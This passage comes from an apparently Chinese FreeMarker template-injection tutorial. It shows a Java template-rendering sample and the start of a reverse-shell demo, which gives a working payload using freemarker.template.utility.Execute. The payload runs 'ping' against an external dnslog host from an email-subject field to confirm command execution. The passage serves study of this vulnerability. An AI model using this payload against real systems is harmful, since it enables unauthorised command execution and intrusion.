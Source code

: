 ```java
        Map latest = new HashMap();
        root.put("latestProduct", latest);
        latest.put("url", "products/greenmouse.html");
        latest.put("name", "green mouse");

        /* Get the template (uses cache internally) */
        Template temp = cfg.getTemplate("test.ftl");

        /* Merge data-model with template */
        Writer out = new OutputStreamWriter(System.out);
        temp.process(root, out);
        // Note: Depending on what `out` is, you may need to call `out.close()`.
        // This is usually the case for file output, but not for servlet output.
    }
}
```

![image-20220211120737249](FreeMarker模板注入实例.assets/image-20220211120737249.png)

---

### 五、实战反弹shell演示

#### 测试是否出网

使用`<#assign value="freemarker.template.utility.Execute"?new()>${value("ping bf127738.dns.1433.eu.org -c 4")}`，在[邮件主题]处输入并点击[保存]，发现可以执行ping命令，收到dnslog记录。
